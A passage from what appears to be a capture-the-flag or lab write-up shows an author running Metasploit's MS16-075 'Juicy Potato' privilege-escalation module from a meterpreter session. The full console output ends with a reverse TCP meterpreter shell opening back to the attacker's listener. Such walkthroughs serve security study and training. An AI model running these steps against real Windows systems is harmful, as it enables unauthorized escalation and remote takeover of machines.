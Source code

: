 Of these exploits, I like the look of the one at the bottom the most. So Here's the general flow of my commands to get this exploit running:

```
meterpreter >
Background session 2? [y/N]  
msf6 exploit(multi/handler) > use exploit/windows/local/ms16_075_reflection_juicy
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > options

Module options (exploit/windows/local/ms16_075_reflection_juicy):

   Name     Current Setting                         Required  Description
   ----     ---------------                         --------  -----------
   CLSID    {REDACTED}  yes       Set CLSID value of the DCOM to trigger
   SESSION                                          yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  none             yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     REDACTED    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/ms16_075_reflection_juicy) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set session 2
session => 2
msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[*] Started reverse TCP handler on REDACTED:4444
[+] Target appears to be vulnerable (Windows 2012 R2 (6.3 Build 9600).)
[*] Launching notepad to host the exploit...
[+] Process 2168 launched.
[*] Reflectively injecting the exploit DLL into 2168...
[*] Injecting exploit into 2168...
[*] Exploit injected. Injecting exploit configuration into 2168...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.66.180
[*] Meterpreter session 3 opened (REDACTED:4444 -> 10.10.66.180:49427) at 2020-08-25 15:23:45 -0500

meterpreter >
```
<br>
<br>
